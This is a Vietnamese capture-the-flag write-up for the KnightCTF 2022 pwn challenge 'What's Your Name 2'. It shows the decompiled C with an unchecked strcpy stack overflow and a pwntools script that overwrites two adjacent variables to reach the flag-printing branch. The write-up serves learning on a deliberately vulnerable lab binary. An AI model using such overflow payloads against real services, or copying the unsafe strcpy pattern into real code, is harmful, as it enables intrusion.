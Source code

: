 # What's Your Name 2
## Mô tả
> Let us know your name and make sure you have enough money ;P        
> nc 198.211.115.81 10002              
> Flag Format : KCTF{S0m3_T3x7_H3r3}                  
> Author : NomanProdhan

File binary: [whats_your_name_two](https://github.com/Butterflies4/KnightCTF2022/edit/main/PWN/What's%20Your%20Name%202/whats_your_name_two)

## Phân tích
Kiểm tra file và  checksec
![image](https://user-images.githubusercontent.com/62021009/150631218-4a3daace-e59b-4c8b-b0ba-194213b8282c.png)      
Sử dụng IDA Pro để xem mã giả của chương trình
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[208]; // [rsp+0h] [rbp-120h] BYREF
  char dest[72]; // [rsp+D0h] [rbp-50h] BYREF
  int v6; // [rsp+118h] [rbp-8h]
  int v7; // [rsp+11Ch] [rbp-4h]

  v6 = 0;
  v7 = 0;
  printf("What's your name ? ");
  fflush(_bss_start);
  fgets(s, 200, stdin);
  strcpy(dest, s);
  if ( v7 == 0x5445454C && v6 == 0x534B544E )
  {
    printf("I liked your name and you got enough money :D");
    system("cat /home/hacker/flag.txt");
  }
  else
  {
    printf("Sorry ! I didn't like your name and you don't have enough money. Come one earn some money.");
  }
  return 0;
}
```
- Ban đầu chương trình lấy đầu vào từ người dùng và lưu vào biến `s`
- Copy nội dung từ biến `s` sang biến `dest`, ta nhận thấy ở đây có lỗi **buffer overflow**, vì biến s được khai báo 208 bytes trong khi đó biến dest chỉ có 72 bytes
- Các biến v6, v7 ban đầu được gán bằng 0 nhưng sau đó chương trình lại so sánh với 2 giá trị ở trên.
- Các biến dest, v6, v7 nằm liên tiếp nhau trên stack
## Solution
Vì các biến nằm liên tiếp nhau trên stack, như vậy đầu tiên ta sẽ chèn 72 bytes để lấp đầy biến dest, sau đó là 2 giá trị cần để so sánh vào biến v6 và v7 (lưu ý thứ tự trên stack sẽ là dest -> v6 -> v7)        
Ta có file exploit.py như sau:
```python
from pwn import *

s = remote('198.211.115.81', 10002)
payload = b'a'*72 + p32(0x534B544E) + p32(0x5445454C)
s.sendlineafter(b'name ? ', payload)
s.interactive()
```
![image](https://user-images.githubusercontent.com/62021009/150631609-4e80e778-99c4-46f1-9cb4-b2656d5818f4.png)
> Flag: KCTF{bUfF3r_0v3Rf1Ow_i5_fUn_r1Gh7}
